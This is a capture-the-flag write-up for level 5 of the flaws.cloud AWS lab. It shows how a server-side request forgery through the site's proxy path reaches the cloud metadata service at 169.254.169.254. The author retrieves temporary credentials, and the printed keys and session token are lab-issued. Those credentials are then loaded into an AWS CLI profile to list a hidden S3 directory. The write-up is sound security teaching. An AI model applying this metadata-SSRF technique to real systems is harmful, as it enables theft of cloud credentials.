 ## Level 5
url: http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/
<kbd>
![image](https://github.com/user-attachments/assets/ff87639d-72f3-41d7-9a2d-ec12ebd99fc8)
</kbd>
Lab says that the level 6 link can be accessed when we used a proxy, we checked the level 6 link first and sure enough we get access denied
<kbd>
![image](https://github.com/user-attachments/assets/5f8ff2ea-d531-4221-9ca1-d53b90bd027f)
</kbd>
If you notice all three links have a directory `proxy` in it

>- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/flaws.cloud/
>- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/summitroute.com/blog/feed.xml
>- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/neverssl.com/
>
If we  play around with it, the `proxy` redirects us to the a different location, to confirm, notice the results of icanhazip.com it results to my ip, 
<kbd>
![image](https://github.com/user-attachments/assets/bcb95ce7-c823-4484-9828-6e3b5149b34f)
</kbd>
Then we will use this the icanhazip again this time using the our target. 

Notice that the IP address of the target is the one that showed up, this is like a server side request forgery (SSRF) we can issue make commands via the server
<kbd>
![image](https://github.com/user-attachments/assets/f6d0d92f-06c6-4339-972d-f6e4c5f68a35)
</kbd>
With this vulnerability in mind, Aws,Gcp and azure uses the ip address 169.254.169.254 (Magic IP) as their metadata intance address and should only be accessible using the server.
<kbd>
![image](https://github.com/user-attachments/assets/c9b93321-a6a4-455e-aa97-649e59e5eb64)
</kbd>
You can read more about the instances here if you want 


https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html

Since we have access to their server, if they did not disable the ipv4 access, we can get request for the intance using this server.

After trying the said Magic IP we are able to list the instance metadata 

`http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/`

I also transitioned to curl for easier enumeration I can just press the up arrow in my keyboard and then type there faster, and while enumerating I found this access keys
<kbd>![image](https://github.com/user-attachments/assets/23e7389a-0bce-42b8-bfab-6d05a1861e51)</kbd>

> - I woudn't recommend doing it in curl, because some character encoding is different when you access the keys from there, and I spent some time troubleshooting the issue


We can use this key to check what access we have, we will create another profile for this access, I used the comand below

```
┌──(aaron㉿kali)-[~/flaws/level6]
└─$ aws configure --profile level5
AWS Access Key ID [None]: ASIA6GG7PSQG3JI4EYHC
AWS Secret Access Key [None]: S3O6moArXchcbC1EkUzHNnU0VEXHqr9K2iZII3dh
Default region name [None]: 
Default output format [None]: 

```

However, to solve the level, we need to add another variable to our profile which is the aws_session_token variable, we add that by going in directly to the aws keys file location, you can use any editor you want
```
┌──(aaron㉿kali)-[~/flaws/level6]         
└─$ vim ~/.aws/credentials
1 [level5]
  2 aws_access_key_id = ASIA6GG7PSQGV34RQHKC
  3 aws_secret_access_key = S3O6moArXchcbC1EkUzHNnU0VEXHqr9K2iZII3dh
  4 aws_session_token = IQoJb3JpZ2luX2VjEOn//////////wEaCXVzLXdlc3QtMiJHMEUCICHzlVYTRyXmaSM1Ggxy1nFMIg9hsIXN8xq6OLKBzcNpAiEAlJQUl8D8eUgqI+LBOgFXNWcHn6B5O+ROmXu9L4puh5Qqs    gUIUhAEGgw5NzU0MjYyNjIwMjkiDI/akownn+kVn26ptiqPBbk1ua2V0EJYoQuld5LzUxkDl18PXVEpHYZLsSD0YHhtw8mYFrJU8CVmRQhkRrD2bQJjtdXUb8ajhQgXSTrGJma0Bto2Z8FFt4Ij2LSL9ipWwwHzDh2WEU    ykL8PjHiPXJfkvoM1low9s2JqWs59AD6oaU2rE5SZnggnW6isq889VcLH/AM4h6h5EXqXE+Sf3SE0J4J7VxF18rbVsapVPQT2+KOI9e27/ffdftQb8HSNCI42ULC73Eno6fQGKr6g0yxApVwpMq6Kj/9IPm4pwqwabj1L    ZDyK7dXiUGh8XZoBC/B1Ra/4icwEwV3whn+NrAXHnYEw+vv1gKEFx6ZZe/bbXI/SBi45hh9cnkRwR7j47OimqLRlWqQOk7dv+HIw/vqIrZdAiXUXYxWFweNK6ZXPAsmbgJl8/xiW8Fk3oupkJ6KD80nIpg4TKjFrxTHhV    j48FtQykv3yFRp4zpP9SnQ0/UdJyr7CGAsc8rMegQDZFozoguqkSRiMWyRHrx93WPs5/rSDzBALVUzl7/siR9QfrktuRPluv7K+UlgKdaZoP93PRXz4jQa8cuf4MHu5fPo2wiJudR7aFw4dSIyfPsDtvd4w0Edeok7Mbx    fTTWBD9owLsTmP6gV0WSH+oE4uDyaJFgULH2eh3hBJr/PHReZsrezs3g9wrZrtFk3BeP9NPQcPJEgJAQ/hz5Egisr9AqFwMOv5qpia/i4IV6r0HMk/EdIlAxzYPc/TcksYqAhLrybF03XEg5DxKtRG0D57p8FrBjdQE4i    hPQm72zutEreBIjk4kFZpZpJLr2pOAHCRRCva3wN6S8Zu+9BXYMN6XsEGvaGbTxl4Nir5eZ9RTtdKg2SvIiFKK+t98/pbcnR4w8IDMuAY6sQGQq08uh++HS8fSpF/pqkmNXvjLD2uCp23BFJ+CIhbC4PWE0apMHoI2bOR    3KfAPzJb2lyPfFS2na7pd+Rye2VbOXEJ1YQbGmbw1V0aXeFAtc2YwZm9kQzckNfY8H23aP4JkTrTCQ2FpOsZS9zTz1ayUrDnDGhseB8tlXHL6+1au2Z2K6R2eO6M9pF1fj688pNKpiCTQnsDt3/hG/ULRhrsNOtZQ7uyc    8t1B9K3q9LhJ8c0=
~
```
<kbd>![image](https://github.com/user-attachments/assets/4c847d7d-889c-4289-a198-b80cab2bc5f5)</kbd>

And if we try to list the s3, we can now see the hidden directory, we can conclude that it is directory because of the `/` at the end of the name


<kbd>![image](https://github.com/user-attachments/assets/3b66b6d9-7eaf-4827-97d6-3d1169191587)</kbd>

A

